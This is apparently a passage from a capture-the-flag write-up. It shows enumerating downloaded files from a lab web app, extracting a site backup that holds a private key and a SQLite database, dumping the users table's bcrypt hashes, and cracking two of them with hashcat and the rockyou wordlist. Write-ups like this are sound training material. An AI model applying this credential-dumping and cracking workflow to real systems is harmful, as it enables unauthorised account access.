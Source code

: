 
```python
!file enumerated_files/id_54.txt
!file enumerated_files/id_150.txt
```

    enumerated_files/id_54.txt: Zip archive data, requires at least v2.0 to extract
    enumerated_files/id_150.txt: Zip archive data, requires at least v2.0 to extract


Downloading these files from the site yields the following directory after extracting the two zips:


```python
!ls enumerated_files
```

    bg.jpg		      key.pem		screen-download.png
    css		      layout_login.php	screen-login.png
    download.php	      layout.php	screen-main.png
    filedb.sqlite	      LICENSE		screen-manage.png
    files		      login.php		screen-upload.png
    functions.global.php  logout.php	security_login.php
    id_150.txt	      main.png		signing.zip
    id_1795.txt	      manage.php	site-backup-30-08-24.zip
    id_54.txt	      register.php	upload.php
    index.php	      reset.php		webfonts
    initial_layout.php    sass		x509.genkey


I didn't bother separating them because I'm lazy, but x509.genkey & key.pem were part of a file called `signing.zip` and the rest are from a `site-backup-30-08-24.zip`

We see database, we dump database.

```sh
 sqlite3 filedb.sqlite                                                      
SQLite version 3.50.1 2025-06-06 14:52:32
Enter ".help" for usage hints.
sqlite> .tables
files  users

sqlite> select * from users;
1|admin_ef01cab31aa|$2y$10$wDboh<snip>If6WrYr.QPC|600|Maria|Oliver|Ottawa
2|eric|$2y$10$S9EOSDqF1Rz<snip>QLhSV2Qvxm|-1|||
3|veronica|$2y$10$xQmS7JL8U<snip>Q805kuQGOK|-1|||
4|yuri|$2b$12$HkRKUdjjOdf<snip>uWejRqUWqwEL2.|-1|||
5|john|$2a$10$iccCEz6.<snip>22a1T1V/IddE6|-1|||
6|ethan|$2a$10$PkV/LA<snip>DpuUV/dh/a1wC|-1|||
```

Running these through hashcat yields that these are bcrypt, and running that through rockyou gives at least the following:

```sh
 hashcat -m 3200 era.users $(wordlists_path)/rockyou.txt
...
$2y$10$S9EOSDqF1RzNUv<snip>hSV2Qvxm:america # eric
$2b$12$HkRKUdjjOdf2Wu<snip>jRqwEL2.:mustang # yuri
```
